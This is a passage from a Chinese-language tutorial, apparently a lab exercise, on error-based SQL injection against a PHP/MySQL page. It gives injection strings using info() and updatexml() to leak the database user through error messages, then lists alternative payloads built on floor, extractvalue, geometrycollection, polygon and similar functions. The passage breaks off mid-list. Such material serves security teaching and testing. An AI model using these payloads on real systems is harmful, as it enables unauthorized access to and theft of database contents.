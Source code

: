 ```php
    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

### 报错注入攻击

​	在输入框输入报错的sql拼接语句

```mysql
1' and info()-- 
```

它的原理是下面一条语句会执行但是会报错，在报错信息中会返回数据库名称

```mysql
SELECT first_name,last_name from users WHERE user_id='1' and info()
```

### 报错注入获取敏感信息

​	通过构造sql语句，返回带有数据库敏感信息的错误信息

```mysql
1' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))-- 
```

注意：这里为什么要用`updatexml()`呢，首先要先了解这个函数

> updatexml(xml_doument,XPath_string,new_value)
> 第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
> 第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。
> 第三个参数：new_value，String格式，替换查找到的符合条件的数据

简单点说，这个函数有三个参数，我们利用第二个参数必须要更改信息的xpath语句来进行报错注入。

为什么要在第二个参数里面加上concat语句呢？因为updatexml（）第二个参数需要进行xpath校验，如果第二个参数哪里不是xpath语句它会进行一次校验然后把校验后的`错误信息返回`



> 但是采用 updatexml 报错函数 只能显示 32 长度的内容，如果获取的内容超过 32
>
> 字符就要采用字符串截取方法。每次获取 32 个字符串的长度。
>
> 除了 updatexml 函数支持报错注入外，mysql 还有很多函数支持报错。
>
> 例如：
>
> ```mysql
> 1.floor()
> select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2)) as x from information_schema.tables group by x)a);
> 2.extractvalue()
> select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
> 3.updatexml()
> select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
> 4.geometrycollection()
> select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
> 5.multipoint()
> select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
> 6.polygon()
> select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
> 7.multipolygon()
> select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
> 8.linestring()
> select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
> 9.multilinestring()